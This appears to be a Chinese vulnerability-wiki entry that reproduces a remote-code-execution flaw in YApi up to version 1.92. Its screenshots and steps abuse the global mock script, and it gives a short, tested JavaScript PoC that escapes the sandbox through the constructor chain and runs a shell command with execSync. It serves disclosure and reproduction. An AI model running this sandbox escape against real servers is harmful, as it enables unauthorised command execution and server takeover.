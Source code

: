 <languages />

<center>
|:-:|:-:|
|![](Check.png "Check.png")|**该漏洞已通过验证**

* * * * *

<small>本页面的EXP/POC/Payload经测试可用，漏洞已经成功复现。</small>|

</center>
影响版本
--------

\<=V1.92 All

漏洞复现
--------

登录注册后，创建一个项目

![](124460388-eaa46100-ddc1-11eb-80c4-2bddb97df8e1.png "124460388-eaa46100-ddc1-11eb-80c4-2bddb97df8e1.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
然後選擇設置全局的mock腳本，設置命令為遠程訪問我的服務器地址。

</div>
![](124460511-090a5c80-ddc2-11eb-92f6-46c9b3b498bb.png "124460511-090a5c80-ddc2-11eb-92f6-46c9b3b498bb.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
添加接口，訪問接口的mock地址

</div>
![](124460629-2dfecf80-ddc2-11eb-98c3-b96f7174d8f1.png "124460629-2dfecf80-ddc2-11eb-98c3-b96f7174d8f1.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
服務器可以看到如下響應

</div>
![](124460757-5686c980-ddc2-11eb-87df-09e0f9ac08af.png "124460757-5686c980-ddc2-11eb-87df-09e0f9ac08af.png")

POC
---

    const sandbox = this
    const ObjectConstructor = this.constructor
    const FunctionConstructor = ObjectConstructor.constructor
    const myfun = FunctionConstructor('return process')
    const process = myfun()
    mockjson = process.mainModule.require("child_process").execSync("command").toString()

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<https://github.com/YMFE/yapi/issues/2233>